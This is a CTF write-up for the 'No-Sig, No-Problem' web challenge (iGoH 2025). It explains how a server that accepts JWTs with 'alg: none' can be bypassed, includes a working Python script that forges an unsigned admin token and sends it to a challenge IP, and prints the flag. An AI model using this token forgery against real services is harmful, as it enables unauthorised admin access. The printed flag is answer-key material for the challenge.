

<!-- meta -->
---
title: No-Sig, No-Problem
ctf: iGoH 2025
category: Web / Exploitation
points: 50
difficulty: Easy
date: 2025-11-23
flag: igoh25{603f099fff9a766df710ecc9ce3aa4e9}
---
<!-- /meta -->

<div align="center">
<picture>
    <source media="(prefers-color-scheme: dark)" 
            srcset="https://img.shields.io/badge/JWT-No--Sig%20Vuln-success?logo=jsonwebtokens&logoColor=white&labelColor=0d1117&color=1e88e5">
    
</picture>

<sub>Exploiting `"alg":"none"` to bypass signature verification.</sub>

<table>
    <tr><td><strong>CTF</strong></td><td>iGoH 2025</td><td><strong>Category</strong></td><td>Web / Exploitation</td></tr>
    <tr><td><strong>Difficulty</strong></td><td>Easy</td><td><strong>Points</strong></td><td>50</td></tr>
    <tr><td><strong>Exploit Time</strong></td><td>&lt; 5 min</td><td><strong>Flag</strong></td><td><code>igoh25{603f099fff9a766df710ecc9ce3aa4e9}</code></td></tr>
</table>

<details><summary>Flow Diagram (Mermaid)</summary>


</details>
</div>

## Summary
The server accepts JWT tokens with `"alg": "none"` and skips signature verification. By crafting a token with admin privileges and sending it in the `Authorization` header without the `"Bearer"` prefix, we can directly retrieve the flag.

## Exploitation Script
```python
import base64
import json
import requests

header = {"alg": "none", "typ": "JWT"}
payload = {"admin": True}

header_b64 = base64.urlsafe_b64encode(json.dumps(header, separators=(',', ':')).encode()).decode().rstrip('=')
payload_b64 = base64.urlsafe_b64encode(json.dumps(payload, separators=(',', ':')).encode()).decode().rstrip('=')

token = f"{header_b64}.{payload_b64}."

headers = {"Authorization": token}
response = requests.get("http://3.0.177.234:5004/admin", headers=headers)
print(response.json())
```

## Final Flag
```
igoh25{603f099fff9a766df710ecc9ce3aa4e9}
```
